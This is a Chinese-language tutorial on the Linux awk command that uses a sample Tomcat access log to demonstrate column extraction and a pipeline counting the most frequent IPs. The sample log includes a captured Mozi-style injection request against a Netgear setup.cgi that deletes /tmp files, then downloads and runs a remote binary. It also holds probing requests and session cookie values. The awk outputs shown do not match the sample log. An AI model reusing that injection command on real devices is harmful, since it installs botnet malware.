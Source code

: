 ```yaml
---
title: awk
---
```

### awk 命令
::: tip awk
awk([ɔk]),这个命令玩的转不转，就是Linux菜不菜的分水岭了

grep命令中已经提到了，Linux有三个重要的命令，一个是grep，一个是awk，还有一个是sed

我在这里介绍几个我工作中用到的案例

:::
#### 先讲讲怎么用
我们先拿一个tomcat的access(部分)日志做demo
``` bash
288.208.60.115 - connector-87 - [27/May/2019:20:38:14 +0800] "GET /webapps/bb-silkV-bb_bb60/dist/js/libs/jquery.min.js HTTP/1.1" 200 33637 "Mozilla/5.0 (Linux; Android 6.0.1; Nexus 5X Build/MMB29P) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/83.0.4103.118 Mobile Safari/537.36 (compatible; Googlebot/2.1; +http://www.google.com/bot.html)" "session_id=7AAE94F365F73328FBA4DAB21173D6D1; s_session_id=3A8546E486A7AADABCB39E9EB95E0DD3; web_client_cache_guid=9b548065-a3b9-42cc-be7b-cf2974c5f332" 72 33637
88.228.10.180 - connector-110 - [27/May/2019:20:57:20 +0800] "GET /js/zimbraMail/share/model/ZmSettings.js HTTP/1.1" 404 8158 "Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/74.0.3729.169 Safari/537.36" "-" 129 8158
222.82.47.4 - connector-116 - [27/May/2019:20:59:54 +0800] "GET / HTTP/1.1" 200 206 "-" "-" 2 206
222.23.34.151 - connector-103 - [27/May/2019:21:05:39 +0800] "POST //webapps/software-updates/registrar/checkCallbackToken HTTP/1.1" 200 - "AHC/1.0" "-" 6 -
123.35.168.245 - connector-108 - [27/May/2019:21:18:41 +0800] "GET / HTTP/1.1" 200 206 "-" "-" 2 206
192.35.168.245 - connector-82 - [27/May/2019:21:18:42 +0800] "GET / HTTP/1.1" 200 193 "Mozilla/5.0 zgrab/0.x" "-" 2 193
123.248.147.78 - - - [27/May/2019:21:22:42 +0800] "GET /wptest/wp-login.php HTTP/1.1" 301 - "Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:62.0) Gecko/20100101 Firefox/62.0" "-" 1 -
123.248.147.78 - connector-89 - [27/May/2019:21:22:44 +0800] "GET /wptest/wp-login.php HTTP/1.1" 404 8158 "Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:62.0) Gecko/20100101 Firefox/62.0" "-" 32 8158
123.97.174.122 - - - [27/May/2019:22:46:45 +0800] "GET /setup.cgi?next_file=netgear.cfg&todo=syscmd&cmd=rm+-rf+/tmp/*;wget+http://192.168.1.1:8088/Mozi.m+-O+/tmp/netgear;sh+netgear&curpath=/&currentsetting.htm=1 HTTP/1.0" 301 - "-" "-" 1 -
123.159.6.192 - - - [27/May/2019:22:46:47 +0800] "POST /cgi-bin/mainfunction.cgi HTTP/1.1" 301 - "XTC" "-" 0 -
```

使用下面的命令
``` bash
[root@xxx tomcat]# awk '{print $1}' access-log.2019-05-27.txt
```
返回结果
``` bash
47.95.28.143
162.212.114.160
162.243.129.111
144.217.207.24
3.82.144.251
3.82.144.251
80.82.70.187
3.82.144.251
218.161.125.93
107.23.34.151
```
那如果使用$2呢？
``` bash
[root@xxx tomcat]# awk '{print $2}' access-log.2019-05-27.txt
```
返回结果
``` bash
-
-
-
-
-
-
-
-
-
-
-
-
-
```
看得出来，这个命令是按列输出的，默认以空格分割，并且awk '{print $1}' xxx.txt为输出第一列

而不是$0,实际上awk '{print $0}' xxx.txt是全列输出

#### 实践一下
``` bash
cat access-log.2019-05-27.txt |sort  -t '-' -k1n |awk '{print $1}'|uniq -c|sort -k1nr|head -10
```
这条命令的作用是统计访问量排在前10的IP
``` bash
11 64.x64.104.xx
6 107.x23.34.xx
4 123.x55.192.xx
4 171.x67.70.xx
3 192.x35.168.xx
3 193.x174.89.xx
3 3.x82.144.xx
3 80.x82.70.xx
2 104.x248.147.xx
2 106.x11.157.xx
```
解释一下（这就需要一点知识的整合了）

把文件输出出来，没什么毛病
``` bash
cat access-log.2019-05-27.txt
```
Linux管道符开始传递，将上一步输出的结果，按'-'分割，k1n的意思是按分割后的第一列进行数字比较排序
``` bash
sort  -t '-' -k1n 
```
awk命令打印第一行
``` bash
awk '{print $1}'
```
由于上上步已经sort排序了，并且awk只打印了第一列，IP列，所以uniq不用排序，直接可以distinct
``` bash
uniq -c
```
uniq后，第一列就变成count数了，这个时候再sort一下，k1nr，最后这个参数r就是倒序的意思
``` bash
sort -k1nr
```
最最后再head -10，从前到后选10个
``` bash
head -10
```

#### 扩展
除了上面讲的pring $1

awk的花样还很多，输出时可以自定义分隔符，输入时也可以自定义分隔符
甚至输出时可以写判断条件，还可以写逻辑函数，这些我就不多介绍了，实际用到时，再百度即可

不过这个命令真的很重要，玩的溜，在服务器上可以做很多事半功倍的事情，唯手熟尔啦:sunglasses: